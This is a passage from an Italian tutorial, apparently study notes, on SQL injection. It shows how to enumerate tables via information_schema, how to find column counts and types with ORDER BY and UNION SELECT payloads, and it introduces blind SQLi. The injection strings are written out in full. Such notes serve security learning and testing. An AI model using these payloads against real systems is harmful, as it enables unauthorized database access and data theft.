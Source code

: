 - Le tabelle presenti nel database possono essere VERAMENTE tante. In questi casi è utile trovare la discriminante che nei metadati distingue le tabelle generate automaticamente e quelle create da un programmatore/utente, ed aggiungere una condizione filtro. 
##### Se non trovi, cerca meglio invece di desistere
- L'`information_schema` o un suo equivalente è presente in tutti i DBMS. Se non trovate ciò che cercate, state cercando male.

#### Tips&Tricks
##### Trovare il numero di colonne
Se non sappiamo il numero di colonne, possiamo usare delle group by (esempi di [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)):

```sql
1' ORDER BY 1--+    # eseguita correttamente
1' ORDER BY 2--+    # eseguita
1' ORDER BY 3--+    # eseguita
1' ORDER BY 4--+    # errore
```
In questo caso, la quarta `ORDER BY` va in errore, il che significa che la quarta colonna non esiste. Un altro metodo, che preferisco, è quello di selezionare vari valori nulli nella `UNION` in questo modo:

```sql
1' UNION SELECT null-- - # errore
1' UNION SELECT null,null-- - # errore
1' UNION SELECT null,null,null-- - # eseguita
```

Usando questo metodo, la query andrà in errore finchè non troveremo il numero preciso di colonne da selezionare. Ed ora è più facile...

##### Trovare il tipo delle colonne
Non sempre possiamo essere sicuri del tipo di colonne. Uno sviluppatore può decidere di salvare dei numeri come varchar, o di non mostrare una colonna selezionata. In tal caso, basta una piccola modifica all'ultima query mostrata e l'utilizzo di mock columns per trovare i tipi di tutte le colonne:

```sql
1' UNION SELECT 'a',null,null-- - # errore
1' UNION SELECT null,'a',null-- - # errore
1' UNION SELECT null,null,'a'-- - # eseguita
```

Quindi l'ultima colonna è un varchar.

```sql
1' UNION SELECT 1,null,'a'-- - # eseguita
1' UNION SELECT null,1,'a'-- - # errore
```

Quindi la prima colonna è un intero, e la seconda non è nè un intero nè un varchar.

### Blind SQLi
Può capitare che un campo vulnerabile non ci restituisca in output un risultato vero e proprio, ma un valore booleano. Pensiamo all'esempio di un login vulnerabile: con una logic SQLi possiamo accedere a qualsiasi account vogliamo. La blind SQLi ci permette di spingerci oltre, andando a ricavare con un semplice vero/falso possibilmente l'intero database.
